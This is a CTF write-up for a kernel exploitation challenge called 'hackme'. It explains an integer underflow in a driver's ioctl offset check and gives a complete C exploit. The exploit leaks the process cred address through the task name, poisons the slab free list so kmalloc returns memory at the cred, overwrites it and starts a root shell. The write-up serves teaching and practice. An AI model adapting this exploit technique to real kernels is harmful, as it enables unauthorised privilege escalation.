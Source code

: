 ## hackme

This is a kernel exploitation challenge that requires us to get root to read the flag, and I failed to solve it in contest, but let's see.

An `ioctl` is implemented in `hackme.ko`. There are 4 commands: to create memory chunk using `kmalloc`, to delete memory chunk using `kfree`, to read memory chunk using `copy_to_user` and to write the memory chunk using `copy_from_user`. When reading and writing the memory chunks, `offset` and `size` can be specified to only read or write part of the memory chunk. Here is where the vulnerability comes from: there is an integer overflow.

```c
v9 = v19.idx;
v10 = pool[v9].buf;
v11 = &pool[v9];
if ( v10 && v19.off + v19.size <= v11->max_size )
{
  //when v19.off == -0x200L and v19.size == 0x200L
  //we can have a underflow
  //also works for read operation
  copy_from_user(&v10[v19.off], v19.usrbuf, v19.size);
  return 0LL;
}
```

### First Attempt

I initially tried to use [this method](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/kernel/kernel_uaf/). In one word, `kfree` a chunk with same size as `struct cred`, and then `fork`, so that the `struct cred` of new process will be the same one as the chunk just being `kfree`ed. Then rewrite this `struct cred` by underflow. However, this does not seem work. Since the `struct cred` of new process is not the same one as the one just being `kfree`ed. I don't know the reason. Maybe it is because the kernel version since that one is `4.4.72` and this one is `4.20.13`, or it is because the `flag` argument of `kmalloc` is different.

### Second Attempt

Then I tried to leak the `cred` first, using `prctl(PR_SET_NAME, comm)`. The detail is [here](https://poppopret.org/2015/11/16/csaw-ctf-2015-kernel-exploitation-challenge/). This works if I read `0x100000L` bytes. Also, we can also leak the address of our memory chunks by reading `next` pointer of freed chunk. After leaking addresses, I found `cred` is very far from the memory chunks, so we cannot rewrite it directly because that will cause kernel panic. 

The correct approach is to rewrite `next` pointer of the free list, a bit similar to `tcache poisoning` in `ptmalloc` exploitation. We can let `kmalloc` return an address near the `cred`, so we can rewrite `cred`. However, we don't want the free list to be corrupted since that will cause kernel panic, so we need to find a memory region whose first 8 bytes are all 0, fortunately `QWORD PTR [address of cred - 0x10] == NULL`.

Final exploit

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/wait.h>
#include <sys/prctl.h>
#include <memory.h>
#include <string.h>
#include <assert.h>

char tab[] = {'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H',
'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P',
'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X',
'Y', 'Z', 'a', 'b', 'c', 'd', 'e', 'f',
'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n',
'o', 'p', 'q', 'r', 's', 't', 'u', 'v',
'w', 'x', 'y', 'z', '0', '1', '2', '3',
'4', '5', '6', '7', '8', '9', '+', '/'};


struct data
{
	unsigned int idx;
	char *usrbuf;
	size_t size;
	size_t off;
};
#define BUF_SIZE 0x100000L
struct data param = {0};
char buffer[BUF_SIZE] = {0};
int fd;

void init()
{
	fd = open("/dev/hackme",0);
	if (fd < 0)
		exit(-1);
	param.usrbuf = buffer;
}

void error_exit(char* msg)
{
	puts(msg);
	exit(-1);
}

void kmalloc(unsigned int idx, size_t size, char sig)
{
	memset(buffer, sig, sizeof(buffer));
	param.size = size;
	param.idx = idx;
	int ret = ioctl(fd, 0x30000, &param);
	if (ret < 0) error_exit("Error: kmalloc");
}

void write_memory(unsigned int idx, size_t size, size_t off)
{
	param.size = size;
	param.idx = idx;
	param.off = off;
	int ret = ioctl(fd, 0x30002, &param);
	if (ret < 0) error_exit("Error: write_memory");
}

void read_memory(unsigned int idx, size_t size, size_t off)
{
	param.size = size;
	param.idx = idx;
	param.off = off;
	int ret = ioctl(fd, 0x30003, &param);
	if (ret < 0) error_exit("Error: read_memory");
}

void kfree(unsigned int idx)
{
	param.idx = idx;
	int ret = ioctl(fd, 0x30001, &param);
	if (ret < 0) error_exit("Error: read_memory");
}

void printhex(char* pbuf, size_t size)
{
	unsigned char* buf = (unsigned char*)pbuf;
	for (size_t i = 0; i < size; ++i)
	{
		printf("%.2x", buf[i]);
	}
	printf("\n");
}

char comm[] = "201920192019";
#define CHUNK_SIZE 0x40L
int main(int argc, char const *argv[])
{
	uintptr_t cred;
	//if (argc == 1) exit(-1);
	prctl(PR_SET_NAME, comm);
	//size_t credsize = strtoul(argv[1], 0, 16);
	init();

	for (int i = 0; i < 64; ++i)
	{
		kmalloc(i, CHUNK_SIZE, tab[i]);
	}
	read_memory(63, BUF_SIZE, -BUF_SIZE);
	char* ret = (char*)memmem(buffer, sizeof(buffer), comm, sizeof(comm) - 1);
	if (ret)
	{
		cred = *(uintptr_t*)(ret - 8);
		assert(*(uintptr_t*)(ret - 0x10) == cred);

		//write(1, buffer, BUF_SIZE);
		printf("%p %p\n", (void*)(ret - buffer), (void*)cred);
		puts(ret);
	}

	const size_t LEAK_SIZE = 0x400L;

	puts("Before: ");
	kfree(62);

	kfree(61);
	read_memory(63, LEAK_SIZE, -LEAK_SIZE);
	//printhex(buffer, LEAK_SIZE);

	uintptr_t addr_62 = *(uintptr_t*)(buffer + LEAK_SIZE - CHUNK_SIZE*2);
	printf("%p\n", (void*)addr_62);

	*(uintptr_t*)buffer = cred - 0x10;
	write_memory(63, CHUNK_SIZE*2, -CHUNK_SIZE*2);


	memset(buffer, 0, CHUNK_SIZE);
	kmalloc(61, CHUNK_SIZE, '\x00'); //consume a chunk
	kmalloc(62, CHUNK_SIZE, '\x00'); //rewrite cred here

	system("/bin/sh");
    // execve will cause kernel panic, no idea why
    // and the exploit works for 80% probability

	return 0;
}
```



